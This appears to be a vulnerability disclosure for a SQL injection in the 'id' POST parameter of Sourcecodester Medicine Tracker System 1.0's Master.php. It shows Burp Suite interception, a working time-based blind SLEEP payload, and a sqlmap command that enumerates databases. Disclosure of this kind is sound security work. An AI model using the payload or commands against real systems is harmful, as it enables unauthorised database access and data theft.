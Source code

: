 # SQL Injection vulnerability was discovered from Sourcecodester Medicine Tracker System (Master.php)

Affected Project: Sourcecodester Medicine Tracker System 1.0

Official Website: [https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)

Version: 1.0

Related Code file: /php-mts/classes/Master.php

Injection parameter: POST parameter 'id' is vulnerable

## Demonstration

Below is /php-mts/app/?page=medicines/manage_medicine:

![image](https://github.com/jadu101/CVE/assets/76433661/d1cb5f99-123f-400e-b46d-b22e842354b3)

Let's intercept the the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/f99c9759-5e52-4b81-8413-f8904ff9e1bd)

After saving the request as master.txt, we will run sqlmap towards it:

![image](https://github.com/jadu101/CVE/assets/76433661/cc549434-f42c-4d68-ae10-8daa877d453a)

POST parameter 'id' is found to be vulnerable. Below is the payload used:

```
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=' AND (SELECT 8594 FROM (SELECT(SLEEP(5)))EJYb) AND 'npqn'='npqn&name=teest&description=test
---
```

![image](https://github.com/jadu101/CVE/assets/76433661/e7dd397c-6568-4b24-b360-682bc2d8a7a1)

`sqlmap -r master.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/58cab1f5-fc42-4a9f-b0e3-c9f4ba03ecaa)

